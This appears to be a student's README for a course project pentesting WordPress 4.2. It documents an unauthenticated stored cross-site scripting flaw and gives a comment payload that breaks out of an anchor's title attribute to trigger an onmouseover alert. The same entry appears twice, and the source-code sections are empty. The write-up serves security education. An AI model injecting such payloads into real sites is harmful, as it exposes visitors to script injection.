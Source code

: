 # Project 7 - WordPress Pentesting

Time spent: **5** hours spent in total

> Objective: Find, analyze, recreate, and document **three to five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) Unauthenticated Stored Cross-Site Scripting (XSS)
  - [ ] Summary: 
    - Vulnerability types: Cross-Site Scripting
    - Tested in version: 4.2
    - Fixed in version: 4.2.1
  - [ ] GIF Walkthrough:
        ![ ](Week7_Attack1.gif)
  - [ ] Steps to recreate:
        1. Paste the following as a comment on a post:
        	```
          <a title='x onmouseover=alert(unescape(/hello%20world/.source))style=position:absolute;left:0;top:0;width:5000px;height:5000px  <insert 64kb of random data>'></a>```
  - [ ] Affected source code:
    
1. (Required) Unauthenticated Stored Cross-Site Scripting (XSS)
  - [ ] Summary: 
    - Vulnerability types: Cross-Site Scripting
    - Tested in version: 4.2
    - Fixed in version: 4.2.1
  - [ ] GIF Walkthrough:
        ![ ](Week7_Attack1.gif)
  - [ ] Steps to recreate:
        1. Paste the following as a comment on a post:
        	```
          <a title='x onmouseover=alert(unescape(/hello%20world/.source))style=position:absolute;left:0;top:0;width:5000px;height:5000px  <insert 64kb of random data>'></a>```
  - [ ] Affected source code:
## Assets

  1. Kali Linux Tool - WPScan: https://wpscan.org

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## License

    Copyright [2019] [Savyasachi Jagadeeshan]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
